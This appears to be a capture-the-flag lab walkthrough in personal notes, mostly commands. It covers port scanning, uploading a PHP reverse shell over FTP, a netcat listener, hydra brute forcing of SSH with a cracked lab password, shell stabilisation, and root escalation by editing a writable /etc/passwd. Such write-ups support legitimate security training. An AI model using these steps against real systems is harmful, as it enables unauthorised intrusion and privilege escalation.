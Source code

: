 Other players writeup
> https://kir0sploit.github.io/2023/02/cybersphere-writeup/

# Command and Techniques:

nmap -sC -p- -sV $IP -oN nmap.txt –vv

ftp: put reverse shell
> php PentestMonkey
> put the openvpn ip
> save the file on current dir

cd webalizer

put getin.php

bye

## Run reverseshell:

- attacker先run： nc -nlvp 8899
- run the reverse shell by running the web browser: 10.10.207.136/webalizer/getin.php

hydra  -l   jack  -P  /usr/share/wordlists/rockyou.txt   ssh://10.10.233.62

login: jack   password: qwertyuiop

goto /home we know that user is jack.
- we dont know the password
- use the hydra to bruteforce the ssh password
- after knowing the password, su jack
- execute interactive command:


	step 1. **export TERM=xterm**
	step 2. **python2 -c 'import pty;pty.spawn("/bin/bash")'**
	step 3. **press CTRL + Z** 不一定需要
	
	stty raw -echo;fg
	
- open new terminal: run another remote command

boom! get the jack shell

or

ssh jack@10.10.233.62 

run the Linpeas tool on the /tmp directory - to see which path is vulnerable that we could edit/modify

ls  -al  /etc/passwd

or

sudo -l

generate encryted password: openssl passwd [your password]

nano  /etc/passwd - paste the passwd on x

su root

